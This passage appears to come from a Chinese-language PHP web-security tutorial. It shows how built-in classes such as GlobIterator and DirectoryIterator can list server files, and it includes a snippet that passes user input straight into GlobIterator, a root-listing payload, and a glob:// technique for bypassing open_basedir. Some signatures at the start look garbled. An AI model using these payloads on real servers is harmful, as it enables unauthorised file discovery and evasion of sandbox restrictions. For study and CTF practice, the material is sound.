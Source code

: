 ```plain
public SplFileInfo::isLink(): boolvoid
public SplFileInfo::isReadable(): boolvoid
public SplFileInfo::isWritable(): boolvoid
public SplFileInfo::openFile(string $mode = "r", bool $useIncludePath = false, ?resource $context = null): SplFileObject
public SplFileInfo::setFileClass(string $class = SplFileObject::class): void
public SplFileInfo::setInfoClass(string $class = SplFileInfo::class): void
public SplFileInfo::__toString(): stringvoid
}
```

GlobIterator 类与前面两个类的区别是，可以直接通过模式匹配寻找文件路径，而前两个类是生成一个指定目录的迭代器，之后利用 echo 调用内置类中的\_\_tostring 方法从而调用第一个文件名的

```plain
<?php
$dir = $_GET['cmd'];
$a = new GlobIterator($dir);
foreach($a as $f){
    echo($f);
}
?>
```

```plain
payload:
$a = new GlobIterator("/*");foreach($a as $f){echo($f->__toString().'<br>');}
```

## Trick->绕过 open\_basedir 限制

### 遍历目录

#### DirectoryIterator 类 + glob://协议

```plain
<?php
ini_get('open_basedir');
$dir_array = array();

$dir = new DirectoryIterator('glob:///*');
foreach($dir as $d){
    $dir_array[] = $d->__toString();
}

$dir = new DirectoryIterator('glob:///.*');
foreach($dir as $d){
    $dir_array[] = $d->__toString();
}

sort($dir_array);
foreach($dir_array as $d){
    echo $d.' ';
}
?>
```

